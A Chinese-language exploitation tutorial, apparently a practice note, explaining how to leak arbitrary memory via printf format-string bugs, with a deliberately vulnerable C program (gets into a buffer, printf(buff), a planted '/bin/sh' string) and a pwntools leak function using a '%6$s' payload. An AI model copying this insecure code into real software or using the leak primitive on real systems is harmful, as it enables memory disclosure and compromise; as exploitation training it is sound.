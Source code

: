 这里说一下利用printf的格式化字符串攻击来进行任意的leak。

在进行查格式化字符串利用是，要注意以下特性：

* 受\x00的影响
* 自身打印的字符也受\x00的影响

示例代码如下：

```c
#include "stdio.h"
#include "stdlib.h"
#include "unistd.h"

void foo();
char binsh[] = "/bin/sh";

int main(int argc, char const *argv[])
{
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
    foo();
    return 0;
}
void foo(){
    char buff[64];
    while(1){
        printf("\nI will say what you say:\n");
        gets(buff);
        if(!strcmp(buff,"exit")){
            printf("Will you get %s?\n", binsh);
            break;
        }else{
            printf(buff);
        }
    }
}
```

为了方便的进行练习，我写了个一直可以无限使用的格式化字符串。

让我们看看这时的leak函数：

```python
def leak(addr):
    leakinfo = '%6$s' + '\x00'*4 + p32(addr)
    p.recvuntil('say:\n')
    p.sendline(leakinfo)
    data = p.recvuntil('\nI')[:-2]
    #data = p.recvuntil('\nI')[:-2]同样可以被替换为data = p.recvuntil('\nI', True)
    if not data:
        data = '\x00'
    else:
        data = data[:4] 
    return data
```
